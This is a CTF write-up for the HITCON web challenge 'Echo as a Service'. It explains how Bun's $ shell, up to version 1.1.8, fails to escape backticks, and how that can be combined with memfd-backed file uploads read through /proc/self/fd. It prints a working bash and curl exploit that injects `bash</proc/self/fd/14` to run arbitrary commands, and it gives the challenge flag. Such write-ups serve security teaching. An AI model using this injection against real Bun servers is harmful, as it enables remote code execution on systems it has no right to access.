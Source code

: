# Echo as a Service

* Category: Web
* Score: 238/500
* Solves: 38/942
* First blood: Friendly Maltese Citizens

## Description

Execute `/readflag give me the flag` to get the flag.

## Overview

The challenge is a simple Bun HTTP server that uses Bun's [$ Shell](https://bun.sh/docs/runtime/shell) to execute the `echo` command:

```javascript
import { $ } from "bun";
// [...]
const output = await $`echo ${msg}`.text();
```

The target Bun version is `1.1.8`.

> This challenge is inspired by `Boom Boom Hell` in LINE CTF 2024.

## Solution

### Intended Solution

Although Bun claims it will escape all strings by default to prevent shell injection attacks, in Bun version `<=1.1.8`, it fails to escape the `` ` ``.

> Bun starts escaping the backtick after this update: https://github.com/oven-sh/bun/pull/10980
>
> By the way, I didn't expect this bug need to be found by reading the source code, some simple fuzzing should be enough. (This is how I found this bug while playing LINE CTF 2024 too :p)

Therefore, we can use `` `sh</path/to/file` `` to execute arbitrary commands if there is a file with user-controlled content.

When Bun receives a request with a large file, similar to the [well known LFI tricks involving nginx buffering](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/), it will create a `memfd` to store the file content. We can leverage this to create a file with arbitrary content and access it via `/proc/self/fd/<number>`.

> Again, reading the source code isn't necessary to uncover this behavior. Something like `strace -yy -e fd=all` or any way to monitor the `/proc/<bun-pid>/fd` can help you find this behavior easily.

The final exploit is:

```bash
#!/bin/bash

target="http://eaas.chal.hitconctf.com:30002/echo"

python3 -c 'print("/readflag give me the flag\n"+"a"*1024*1024*10)' > /tmp/qqq

curl "$target" -F 'msg=`bash</proc/self/fd/14`' -F 'file=@/tmp/qqq'
```

You should get the flag in the response.

flag: `hitcon{i_found_this_bug_during_LINECTF_but_unfortunately_it_became_1day_challenge_a_few_months_ago}`

### Unintended Solution

The unintended solution can be found in this [well-made write-up](https://github.com/nullchilly/ctf/blob/main/hitcon24/echo_as_a_service/README.md) by [@nullchilly](https://github.com/nullchilly)

## Credit

Thanks again to [@maple3142](https://github.com/maple3142) for giving me ideas about using Bun temporary file while playtesting this challenge.